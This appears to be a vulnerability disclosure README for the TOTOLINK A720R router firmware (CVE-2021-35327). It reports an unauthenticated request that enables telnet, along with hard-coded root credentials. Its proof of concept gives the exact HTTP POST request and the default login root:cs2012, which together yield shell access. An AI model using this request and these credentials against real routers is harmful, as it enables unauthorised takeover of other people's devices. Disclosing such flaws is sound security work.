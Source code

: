 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A720R

Version:A720R_Firmware(V4.1.5cu.470_B20200911)

Type:Unsafe telnet settings

Author:Huizhao Wang, Chuan Qin

Institution:wanghuizhao@iie.ac.cn, qinchuan@iie.ac.cn

## Vulnerability description

We found a default telnet username and password and telnet service can be started without authorization vulnerability in TOTOLINK Technology router with firmware which was released recently, allows remote attackers to login shell by using default username and password.

![image-20210616094749614](A720R_default_telnet_info.assets/image-20210616094749614.png)

Telnet service can be started without authorization, so attackers can start service first, and then log in with the default username and password.

## POC

First, send the following POST request to start telnet service without authorization.

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 48
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/telnet.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"telnet_enabled":"1","topicurl":"setTelnetCfg"}
```

Next, `telnet 192.168.0.1` enter the default username and password(root:cs2012) to log in to the shell.

## CVE info

CVE-2021-35327
